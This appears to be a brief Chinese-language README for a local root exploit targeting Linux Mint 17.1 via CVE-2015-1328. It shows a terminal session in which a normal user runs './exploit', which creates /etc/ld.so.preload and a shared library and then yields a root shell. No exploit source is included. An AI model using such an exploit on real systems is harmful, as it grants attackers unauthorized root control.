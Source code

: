 # Description
截止到今天，LinuxMint目前比较新的版本17.1可以直接本地普通用户提权，最新的17.2需要在进行远程的时候可以，本地不可以！

# Testing

```
$ id
uid=1000(mudongliang) gid=1000(mudongliang) 组=1000(mudongliang),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),110(sambashare)
$ ./exploit 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),110(sambashare),1000(mudongliang)
```

#Reference
[CVE-2015-1328](http://cxsecurity.com/issue/WLB-2015060081)